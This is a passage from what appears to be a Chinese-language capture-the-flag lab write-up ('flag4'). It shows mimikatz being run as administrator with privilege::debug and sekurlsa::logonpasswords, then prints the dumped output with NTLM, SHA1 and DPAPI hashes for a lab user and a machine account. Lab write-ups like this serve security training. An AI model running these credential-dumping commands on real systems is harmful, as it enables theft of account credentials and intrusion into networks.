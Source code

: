 ## flag4

上传一个 mimikatz 管理员运行

```plain
privilege::debug
sekurlsa::logonpasswords
```

抓出用户哈希

```plain
Authentication Id : 0 ; 2375709 (00000000:0024401d)
Session           : RemoteInteractive from 2
User Name         : Zhangtong
Domain            : XIAORANG
Logon Server      : XIAORANG-WIN16
Logon Time        : 2023/10/26 15:35:02
SID               : S-1-5-21-533686307-2117412543-4200729784-1147
        msv :
         [00000003] Primary
         * Username : Zhangtong
         * Domain   : XIAORANG
         * NTLM     : 22c7f81993e96ac83ac2f3f1903de8b4
         * SHA1     : 4d205f752e28b0a13e7a2da2a956d46cb9d9e01e
         * DPAPI    : ed14c3c4ef895b1d11b04fb4e56bb83b
        tspkg :
        wdigest :
         * Username : Zhangtong
         * Domain   : XIAORANG
         * Password : (null)
        kerberos :
         * Username : Zhangtong
         * Domain   : XIAORANG.LAB
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 2336551 (00000000:0023a727)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2023/10/26 15:35:01
SID               : S-1-5-90-0-2
        msv :
         [00000003] Primary
         * Username : XIAORANG-EXC01$
         * Domain   : XIAORANG
         * NTLM     : fd8408d2e99712fd9c0e3f9ff5a4a68a
         * SHA1     : 81696b3c14ee113350769e17397aac9a02071843
        tspkg :
        wdigest :
         * Username : XIAORANG-EXC01$
         * Domain   : XIAORANG
         * Password : (null)
        kerberos :
         * Username : XIAORANG-EXC01$
         * Domain   : xiaorang.lab
```